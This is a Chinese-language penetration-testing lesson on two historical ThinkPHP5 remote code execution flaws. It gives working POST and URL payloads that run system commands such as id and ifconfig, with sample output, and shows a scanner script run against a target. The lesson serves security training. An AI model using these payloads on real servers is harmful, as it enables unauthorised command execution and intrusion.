# ThinkPHP5历史漏洞及利用：P41：2_Thinkphp5历史漏洞及利用

## 📖 概述
在本节课中，我们将学习ThinkPHP5框架的两个历史远程代码执行漏洞。我们将了解漏洞的原理、如何手动测试漏洞是否存在，以及如何利用自动化脚本进行批量检测和利用。课程内容将分为两个主要部分，分别对应ThinkPHP 5.0.23及之前版本和5.0.2版本的漏洞。

---

## 🔍 ThinkPHP 5.0.23 远程代码执行漏洞

上一节我们介绍了课程概述，本节中我们来看看第一个漏洞：ThinkPHP 5.0.23版本的远程代码执行漏洞。

该漏洞产生的原因是，在5.0.23及之前的版本中，获取`method`的方法没有正确处理传入的方法名。这导致攻击者可以调用`Request`类的任意方法，并构造利用链，最终实现远程代码执行。

### 漏洞发现与手动测试
要判断目标网站是否存在此漏洞，我们可以进行手动测试或使用工具。以下是手动测试的步骤。

首先，漏洞的利用点通常在URL的`s`参数中。例如，访问以下格式的URL：
```
http://target.com/index.php?s=captcha
```



接下来，我们需要将请求方法从GET改为POST，并传递特定的参数来执行系统命令。



以下是具体的操作步骤：
1.  使用浏览器或代理工具访问上述URL。
2.  使用抓包工具（如Burp Suite）拦截该请求。
3.  将拦截到的GET请求修改为POST请求。
4.  在POST请求体中添加攻击载荷（Payload）。

### 漏洞利用演示
假设我们已拦截到请求，并将其改为POST请求。我们需要在请求体中添加参数来执行命令。

例如，执行 `id` 命令查看当前系统用户的Payload如下：
```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

将这个Payload放入POST请求体中发送，如果漏洞存在，服务器将执行`id`命令并返回结果，例如：
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

同样，我们可以尝试执行其他系统命令，例如执行 `ifconfig` 查看网络信息：
```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ifconfig
```



通过这种方式，攻击者可以在目标服务器上执行任意系统命令。



---





## ⚙️ ThinkPHP 5.0.2 远程代码执行漏洞

了解了5.0.23版本的漏洞后，我们接着来看另一个版本：ThinkPHP 5.0.2的远程代码执行漏洞。

该漏洞的成因是程序没有正确处理控制器名。在网站未开启强制路由的默认配置下，攻击者可以调用任意方法，从而导致远程命令执行漏洞。



### 自动化检测与利用
由于ThinkPHP 5.x版本存在多个变种的Payload，手动测试效率较低。因此，我们可以使用自动化脚本进行批量检测。



以下是推荐的检测步骤：
1.  寻找或编写针对ThinkPHP漏洞的扫描脚本。
2.  使用脚本对目标URL进行测试，脚本会尝试多个已知的Payload。
3.  根据脚本反馈的结果，判断漏洞是否存在并获得可用的Payload。



### 脚本使用演示
假设我们有一个名为`thinkphp_rce.py`的Python扫描脚本。



在命令行中，使用以下格式运行脚本：
```bash
python thinkphp_rce.py -u http://target.com:8090
```
其中，`http://target.com:8090` 是待检测的目标地址。



脚本运行后，如果发现漏洞，会输出类似以下信息：
```
[+] Vulnerable: http://target.com:8090
[+] Payload: /index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
这表示目标存在漏洞，并给出了一个可以执行`id`命令的Payload。



我们可以直接访问这个构造好的URL，例如：
```
http://target.com:8090/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
如果页面返回了`id`命令的执行结果，则证明漏洞利用成功。

脚本中通常内置了多个Payload变种，用于应对不同环境。我们也可以在网上搜索更多针对特定版本的Payload进行尝试，例如执行`phpinfo()`函数来查看服务器信息。

---

## 📝 总结
本节课中我们一起学习了ThinkPHP5框架的两个历史远程代码执行漏洞。
*   第一个漏洞影响 **5.0.23及之前版本**，通过`s`参数和特定的POST请求参数构造利用链，实现命令执行。
*   第二个漏洞影响 **5.0.2等版本**，由于控制器处理不当，在未开启强制路由时可被利用。我们学习了如何使用自动化脚本高效地检测和验证这类漏洞。



理解这些漏洞的原理和利用方式，有助于我们在渗透测试中识别相关风险，并采取相应的防御措施。